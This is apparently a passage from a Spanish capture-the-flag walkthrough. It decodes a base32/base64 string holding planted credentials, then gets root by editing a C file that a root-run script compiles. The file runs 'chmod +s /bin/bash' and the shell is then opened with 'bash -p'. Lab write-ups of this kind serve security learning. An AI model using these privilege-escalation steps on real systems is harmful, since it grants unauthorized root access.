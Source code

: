 Esta codificado en base32 y base64 :

```bash
echo 'MFDTS42ZKNCWOYZSHF2GEM2NM5NFO53HLIZUUMLDI44GOULNPBUFSMTUIRMVQULTJFEEE3DCNZHGQYSXHF5ESR2WOVEUOVTVLEZUU4DDJBJGQY3JIJWGGM2SNQFESSCONRRW4WTMMNUUE522LBFHMSKHGV3ESSCSOBNFONLMJFDTK2C2I5CWOWSHKVTWCVZVGBNFQSTMMN4XOZ3EI5KWOWKXNB3GG3SKNBRW2VLHMRDWY3DCLBBHMCSPNFBGUY3NNR5GIR2GONHW2UTZMIZUE2TBI44XUZCHHF3U4RCVPJKTA4CHJFCG6Z22I5WHUWTOJIYWIR2FJMFA====' | base32 -d | base64 -d

```

Lo que resulta en :

```bash
hola! somos el grupo BlackCat, pensamos en encriptar este server pero no tiene nada de interes, te ahorrare tiempo: cristal:dropchostop453SJF : disfruta
```

YA ESTAMOS COMO CRISTAL.

# ESCALADA PRIVILEGIOS

Al hacer **ps -ef** vemos que el archivo **/home/cristal/systm.sh** es ejecutado por root todo el rato, lo que hace es compilar el .c y ejecutarlo , y podemos editarlo ya que pertenecemos al grupo editor.

```bash

cristal@5b1ecf9e12fd:~$ id
uid=1002(cristal) gid=1002(cristal) groups=1002(cristal),100(users),1003(editor)
cristal@5b1ecf9e12fd:~$ cat systm.c
int main() {
    // Comando a ejecutar
    const char *command = "chmod +s /bin/bash";

    // Ejecutar el comando usando system()
    (void)system(command); // Ignorar el resultado

    return 0;
}
cristal@5b1ecf9e12fd:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1446024 Mar 31  2024 /bin/bash
cristal@5b1ecf9e12fd:~$ /bin/bash -p
bash-5.2# whoami
root
bash-5.2# 

```

**YA ESTAMOS COMO ROOT.**